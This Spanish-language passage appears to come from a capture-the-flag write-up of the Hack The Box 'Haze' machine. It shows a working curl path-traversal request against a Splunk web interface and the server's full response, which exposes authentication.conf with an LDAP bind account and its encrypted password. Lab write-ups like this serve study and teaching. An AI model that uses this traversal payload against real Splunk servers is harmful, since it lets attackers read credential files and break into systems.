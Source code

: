 Hay un archivo llamado `authentication.conf` que se ve jugoso, ya que tiene información de autenticación para ser utilizada por la aplicación. Si intentamos leerlo:

```bash
❯ curl -v 'http://10.10.11.61:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf'
*   Trying 10.10.11.61:8000...
* Connected to 10.10.11.61 (10.10.11.61) port 8000
* using HTTP/1.x
> GET /en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf HTTP/1.1
> Host: 10.10.11.61:8000
> User-Agent: curl/8.13.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Fri, 27 Jun 2025 06:43:40 GMT
< Content-Type: text/html
< X-Content-Type-Options: nosniff
< Last-Modified: Wed, 05 Mar 2025 08:07:03 GMT
< Content-Length: 838
< Vary: Accept-Encoding, Cookie
< Connection: Keep-Alive
< Accept-Ranges: bytes
< Set-Cookie: session_id_8000=302e973bd76314083595af419f3e271e5bb6b24c; expires=Fri, 27 Jun 2025 07:43:40 GMT; HttpOnly; Max-Age=3600; Path=/
< Server: Splunkd
< 
[splunk_auth]
minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
* Connection #0 to host 10.10.11.61 left intact
```
